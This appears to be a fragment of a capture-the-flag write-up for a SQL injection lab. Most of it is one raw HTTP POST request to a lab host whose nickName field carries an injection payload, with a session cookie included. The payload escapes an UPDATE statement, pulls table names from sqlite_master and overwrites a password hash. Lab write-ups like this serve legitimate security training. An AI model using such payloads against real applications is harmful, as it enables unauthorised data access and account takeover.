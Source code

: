 ![Pasted image 20210804094911](Pasted%20image%2020210804094911.png)

```http
POST /sesqli5/profile HTTP/1.1
Host: 10.10.109.88:5000
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 236
Origin: http://10.10.109.88:5000
DNT: 1
Connection: close
Referer: http://10.10.109.88:5000/sesqli5/profile
Cookie: session=.eJy9z7FqAzEMBuB38ZzBOkln382l0CVb5yDbMphecqmdUkrIu9fXlNKxUzfp_0Hou5qm7XUpcEhyETNfzfPTg5lhZ_QoZTGzMTtzkqP26bHKKa6lbUmJL_t72reztHZe62Vf--5HywOzBbKevsv3taZeUfSYnY2SUSBOEimSS8NErDY7n11CFhcnIPEKHkaUqAN6gaA6Qtiu1TWXRbcfDdgeNFmkfph5YHvb_WDemtZDSV-Qe8b_AYzKUUaHCTDgCOATUwdlQNHQ3Ra6BkN2DtQB0gCBEuTkCTLjJH8F8i_g7RPqGYUc.YQqYFg.hBU1GBPvrJ7J_k0Kb6c4JLNtkGA
Upgrade-Insecure-Requests: 1
Sec-GPC: 1

nickName=tgihf',email=(SELECT+name+FROM+sqlite_master+WHERE+type+=+'table'+AND+name+NOT+LIKE+'sqlite_%'+LIMIT+1,1),password='d74ff0ee8da3b9806b18c877dbf29bbde50b5bd8e4dad7a3a725000feb82e8f1';--+&email=tgihf%40tryhackme.com&password=pass
```

